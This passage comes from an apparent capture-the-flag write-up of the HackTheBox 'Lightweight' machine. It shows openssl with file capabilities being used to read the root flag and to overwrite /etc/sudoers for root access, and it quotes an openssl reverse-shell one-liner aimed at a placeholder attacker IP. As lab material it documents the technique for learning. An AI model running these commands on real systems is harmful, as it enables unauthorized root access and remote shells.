 The simplest next step is to read the flag as root. I can do that simply by
using `openssl` to base64 the flag, and then pipe that into `base64 -d`:

    
    
    [ldapuser1@lightweight ~]$ ./openssl base64 -in /root/root.txt | base64 -d
    f1d4e309...
    

### root Shell

Of course I want a root shell, and arbitrary read and write offers many paths
on Linux. One path that might be tempting is to use `openssl` to get a shell,
using something like [this](https://medium.com/@int0x33/day-43-reverse-shell-
with-openssl-1ee2574aa998) or like I did in [Ethereal](/2019/03/09/htb-
ethereal.html#shell-via-openssl). That would be using something like:

    
    
    mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <ATTACKER-IP>:<PORT> > /tmp/s; rm /tmp/s
    

The reason that won’t work is because while the `openssl` process has
capabilities, the `/bin/sh` does not, so that shell will still run without the
abilities I am looking for.

But, I can fall back to things like adding a user in `/etc/passwd`,
overwriting a suid binary, or adding a root cron job. In this case, I’ll edit
`/etc/sudoers`.

First I’ll make a copy of the existing file in `/dev/shm`. Then I’ll add a
line to allow my current user to

    
    
    [ldapuser1@lightweight ~]$ ./openssl base64 -in /etc/sudoers | base64 -d > /dev/shm/t
    [ldapuser1@lightweight ~]$ echo "ldapuser1    ALL=(ALL)       ALL" >> /dev/shm/t
    [ldapuser1@lightweight ~]$ cat /dev/shm/t | base64 | ./openssl enc -d -base64 -out /etc/sudoers
    

Now I have an entry in the `sudoers` file, so I can `sudo su`:

    
    
    [ldapuser1@lightweight ~]$ sudo su
    [sudo] password for ldapuser1:
    [root@lightweight ldapuser1]# 
    

## Beyond Root

### Which ldap Creds / status.php

When I found ldapuser1’s creds in the `backup.7z` file, I was confused. I had
identified that visiting `status.php` initiated ldap activity, but I had
captured activity from ldapuser2. Once I had a shell as root, I went into the
web directories and grabbed a copy of `status.php`. Turns out I was right:

    
    